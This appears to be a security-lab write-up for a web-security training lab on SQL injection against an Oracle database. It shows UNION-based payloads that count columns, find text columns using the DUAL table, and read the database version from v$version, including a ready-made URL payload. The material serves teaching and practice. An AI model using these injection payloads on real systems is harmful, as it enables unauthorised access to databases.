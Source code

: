 **Blind SQL injection with out-of-band data exfiltration**  
This lab focuses on exploiting blind SQL injection to exfiltrate data via out-of-band techniques.

**SQL injection with filter bypass via XML encoding**  
This lab demonstrates bypassing input filters in SQL injection by encoding payloads using XML.

---

### LAB 3 - SQL injection attack, querying the database type and version on Oracle

### Lab Description

![image](https://github.com/user-attachments/assets/a714971e-8a3d-490b-bafa-95a0bbdf26b7)

### Solution

Here we can find out the number of columns that the web app is querying & also determine the columns which have text data but to retreive a column data  we need to know the table name.

> In oracle there is a default table called **DUAL**. Using that we can retreive column data.


For example: UNION SELECT 'abc' FROM dual
We see there are 2 values displayed in the table, the description and the content of the post:

![image](https://github.com/user-attachments/assets/02bc6919-b024-44fe-a576-d03a9fe45771)

### Determine the number of columns 

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' ORDER BY 3 --
```

**ORDER BY 3** gives error, so there are 2 columns being retreived.

### Determine the column which has text data


```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT 'hanzala','cys' FROM dual --
```
Both the columns show the text in response. So both columns support text data.

### Retreive db type & version of ORACLE 

To retretive db type & version of ORACLE , we have the syntax `SELECT * FROM v$version`

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT NULL,banner FROM v$version --

```
To display the version we need to execute one of these:
```sql
SELECT banner FROM v$version
SELECT version FROM v$instance

/filter?category=Gifts'+union+all+select+'1',banner+FROM+v$version-- 

```
We got the db info we needed.
